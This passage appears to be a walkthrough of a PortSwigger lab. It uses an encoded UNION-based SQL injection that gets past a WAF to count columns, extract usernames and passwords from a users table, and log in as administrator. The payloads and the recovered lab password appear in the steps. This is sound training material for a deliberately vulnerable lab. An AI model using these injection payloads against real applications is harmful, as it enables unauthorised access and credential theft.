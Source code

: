 ![image](https://github.com/user-attachments/assets/c9f4f050-f63c-41a0-81fb-f2eafec1cb84)

   Sent via Repeater, bypassed WAF successfully.

 ![image](https://github.com/user-attachments/assets/a928b6aa-be8e-4773-95cc-6e09ce7f0ac6)

2. **Find Column Count**  
   Used encoded payload:
   ```sql
   1 UNION SELECT NULL --
   ```
![image](https://github.com/user-attachments/assets/f02212f9-5219-451f-b7b1-ed35a43857e1)

   Confirmed table has **1 column**.

2. **Extract Credentials**  
   Used PortSwigger cheat sheet payload:
   ```sql
   1 UNION SELECT username||'~'||password FROM users --
   ```
![image](https://github.com/user-attachments/assets/46bddc12-a45c-4352-bfed-3fcaca7ce5bf)

   Encoded with Hackvertor, got `administrator~e6jomps7kptnx04vcvtz`.

2. **Login**  
   Logged in with:
   - Username: `administrator`
   - Password: `e6jomps7kptnx04vcvtz`  
   Lab solved.

![image](https://github.com/user-attachments/assets/4f4cb4ce-8462-48d0-8814-17823b29a3e1)


---
